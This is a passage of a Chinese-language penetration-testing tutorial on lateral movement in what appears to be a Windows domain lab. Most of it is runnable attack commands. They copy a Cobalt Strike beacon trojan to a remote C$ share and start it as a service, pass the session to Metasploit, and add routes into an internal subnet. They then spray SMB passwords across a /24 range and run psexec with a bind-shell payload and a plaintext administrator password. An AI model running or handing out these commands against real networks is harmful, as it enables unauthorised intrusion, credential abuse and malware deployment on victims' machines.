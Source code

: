 然后将此监听器生成的木马放到web主机，创建服务运行上线CS
Default
shell net use \\OWA2010CN-GOD\C$
shell copy dcbeacon.exe \\OWA2010CN-GOD\C$
shell sc \\OWA2010CN-GOD create 1dcbindshell binpath= "C:\dcbeacon.exe"
shell sc \\OWA2010CN-GOD start 1dcbindshell
connect 192.168.3.21

批量密码喷洒

在利用cs进行横向移动时，发现如果主机和口令数量足够多的话，比较影响效率，可以使用相关口令扫描工具进行密码喷射如超级弱口令扫描工具、ntscan等，然后进行集中利用。
下面使用cs派生到msf进行口令探测和利用：
首先cs建立msf监听器

设置msf
移交cs中的权限给msf
Default
# 查看路由，获取当前机器的所有网段信息
meterpreter > run get_local_subnets 
# 自动查看路由信息
meterpreter > run post/multi/manage/autoroute
Default
# 获取路由信息后添加路由
meterpreter > background 
msf6 exploit(multi/handler) > route add 192.168.3.0 255.255.255.0 1
# 获取路由地址信息：
meterpreter > run autoroute -p

使用msf批扫出smb账号密码
Default
use auxiliary/scanner/smb/smb_login
set threads 10
set rhosts 192.168.3.0/24
set smbdomain god
set user_file /root/user.txt
set pass_file /root/pass.txt
run

漏洞利用
Default
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set RHOSTS 192.168.3.32
set smbuser administrator
set smbpass admin!@#45
run
